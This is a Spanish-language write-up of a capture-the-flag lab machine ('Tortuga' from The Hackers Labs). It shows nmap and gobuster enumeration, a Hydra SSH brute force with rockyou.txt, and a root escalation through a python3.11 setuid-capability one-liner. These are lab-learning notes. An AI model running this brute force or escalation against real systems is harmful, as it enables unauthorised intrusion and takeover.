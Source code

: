 ```yaml
---
tags:
  - Cybersecurity
  - Labs
  - TheHackersLabs
  - Easy
  - HTTP
  - Hydra
  - SSH
  - PrivilegeEscalation
  - Capabilities
---
```

- [[#Enumeración|Enumeración]]
	- [[#Enumeración#Ping|Ping]]
	- [[#Enumeración#Nmap|Nmap]]
	- [[#Enumeración#HTTP|HTTP]]
		- [[#HTTP#Fuzzing Web|Fuzzing Web]]
- [[#Explotación|Explotación]]
	- [[#Explotación#Hydra|Hydra]]
	- [[#Explotación#SSH|SSH]]
	- [[#Explotación#Escalada de Privilegios|Escalada de Privilegios]]
		- [[#Escalada de Privilegios#Capabilities|Capabilities]]


---
# Resolviendo la máquina Tortuga

>En esta publicación, comparto cómo resolví la máquina **Tortuga** de [The Hackers Labs](https://labs.thehackerslabs.com/machine/131).

![](Screenshots/Pasted%20image%2020250913171649.png)

---
## Enumeración
### Ping

`ping -c 1 192.168.1.166`

![](Screenshots/Pasted%20image%2020250913101022.png)

*TTL=63/64* -> **Linux**
### Nmap

`nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.1.166 -oG allPorts`

![](Screenshots/Pasted%20image%2020250913101227.png)

`nmap -p22,80 -sCV 192.168.1.166 -oN targeted`

![](Screenshots/Pasted%20image%2020250913101254.png)
### HTTP

`http://192.168.1.166/`

![](Screenshots/Pasted%20image%2020250913101558.png)

`http://192.168.1.166/mapa.php`

![](Screenshots/Pasted%20image%2020250913101646.png)

`http://192.168.1.166/tripulacion.php`

![](Screenshots/Pasted%20image%2020250913101710.png)
#### Fuzzing Web

`gobuster dir -u http://192.168.1.166/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 64`

![](Screenshots/Pasted%20image%2020250913102937.png)

`dirb http://192.168.1.166/`

![](Screenshots/Pasted%20image%2020250913103031.png)

No se encuentra ningún directorio oculto.

---
## Explotación
### Hydra

Se procede a realizar un ataque de fuerza bruta, con el usuario `grumete`. Se proporciona una pista con el mensaje: "Ey **grumete** revisa la nota oculta que dejado en tu camarote...".

`hydra -l grumete -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.166 -t 64`

![](Screenshots/Pasted%20image%2020250913103555.png)
### SSH

Se accede al servicio **SSH** (puerto 22).

`ssh grumete@192.168.1.166`

![](Screenshots/Pasted%20image%2020250913103809.png)

Se identifica la *flag* de usuario en `/home/grumete`.

En el directorio mencionado anteriormente, se encuentra un archivo oculto llamado `nota`.

`ls -la`

![](Screenshots/Pasted%20image%2020250913110508.png)

Se visualiza el archivo.

![](Screenshots/Pasted%20image%2020250913110609.png)

Se encuentra la contraseña del usuario `capitan`.
### Escalada de Privilegios

Con el comando `su capitan`, se accede al usuario `capitan`. Se puede realizar así, o también conectándonos mediante **SSH**. 
#### Capabilities

El binario `python3.11` tiene asignadas capacidades que permiten cambiar UID. Aprovechando esto, se ejecuta Python para elevar privilegios a root mediante `os.setuid(0)`.

`getcap -r / 2>/dev/null`

![](Screenshots/Pasted%20image%2020250913110919.png)

Se encuentra el binario: `/usr/bin/python3.11`, se realiza una búsqueda por [GTFOBins](https://gtfobins.github.io/gtfobins/python/#capabilities).

![](Screenshots/Pasted%20image%2020250913111011.png)

`/usr/bin/python3.11 -c 'import os; os.setuid(0); os.system("/bin/sh")'`

![](Screenshots/Pasted%20image%2020250913111102.png)

Se encuentra la *flag* de *root* en la ruta: `/root`.

Con estos pasos se completa la resolución de **Tortuga**: acceso inicial mediante fuerza bruta a `grumete`, pivot a `capitan` gracias a credenciales locales, y escalada final a *root* explotando capacidades en `python3.11`.

---